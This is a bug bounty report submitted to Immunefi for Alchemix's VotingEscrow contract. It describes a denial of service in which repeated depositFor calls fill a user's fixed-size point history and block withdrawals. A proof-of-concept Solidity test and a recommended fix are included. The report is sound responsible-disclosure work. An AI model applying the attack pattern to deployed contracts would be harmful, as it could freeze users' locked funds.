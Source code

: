 
# DOS of withdrawals through filling the userPointHistory

Submitted on Wed May 08 2024 01:48:35 GMT-0400 (Atlantic Standard Time) by @NinetyNineCrits for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30922

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro

While not very feasible, it is technically possible to DOS withdraws associated with a tokenId, by doing a large amount of deposits for said tokenId.

## Vulnerability Details

Unlike Velodrome, every `_checkpoint` call with an associated tokenId writes a new userPoint:

```solidity
    uint256 userEpoch = userPointEpoch[_tokenId] + 1;

    userPointEpoch[_tokenId] = userEpoch;
    newPoint.ts = block.timestamp;
    newPoint.blk = block.number;
    userPointHistory[_tokenId][userEpoch] = newPoint;
```

This opens up the door to a DOS, as the number of possible user points is limited:

```solidity
mapping(uint256 => Point[1000000000]) public userPointHistory;
```

Any user can invoke `_checkpoint` for any tokenId by using `depositFor`.

Naturally 1 Billion is a very large number that somewhats limits the feasability and likelihood of this attack (but does not mean a billion transactions need to be made, as the deposits could be looped through a contract). Even though the impact could be categorized as a `permanent freeze`, the limitations do not justify a higher severity than medium imo, hence `griefing` seems to be the appropriate impact.

## Impact Details
DOS of any tokenId, but associated with very high costs of attack.

## Recommendations
Consider going back to Velodromes approach of accounting, which limits the addition of points to 1 per block:

```solidity
uint256 userEpoch = userPointEpoch[_tokenId];
if (userEpoch != 0 && _userPointHistory[_tokenId][userEpoch].ts == block.timestamp) {
    _userPointHistory[_tokenId][userEpoch] = uNew;
} else {
    userPointEpoch[_tokenId] = ++userEpoch;
    _userPointHistory[_tokenId][userEpoch] = uNew;
}
```

This would also add a time constraint on the attack, which would require 380 years, assuming a a block each 12 seconds.
        
## Proof of concept
## Proof of Concept

```solidity
    //@note requires modifying `mapping(uint256 => Point[1000000000]) public userPointHistory;` in VotingEscrow to a size of 5
    function testMinhDOSWithdraw() public {
        address user = address(0x12345);
        address attacker = address(0x6789);
        deal(bpt, user, 10e18);
        deal(bpt, attacker, 10);

        hevm.startPrank(user);
        IERC20(bpt).approve(address(veALCX), 10e18);
        uint256 tokenId = veALCX.createLock(10e18, 2 weeks, false);
        hevm.stopPrank();

        hevm.startPrank(attacker);
        IERC20(bpt).approve(address(veALCX), 10);
        veALCX.depositFor(tokenId, 1);
        veALCX.depositFor(tokenId, 1);
        veALCX.depositFor(tokenId, 1);
        hevm.stopPrank();

        hevm.warp(block.timestamp + 2 weeks);

        hevm.startPrank(user);
        veALCX.startCooldown(tokenId);

        hevm.warp(block.timestamp + 2 weeks);

        veALCX.withdraw(tokenId);
    }
```

This test will revert on the `withdraw` call with:

```solidity
[FAIL. Reason: Index out of bounds]
```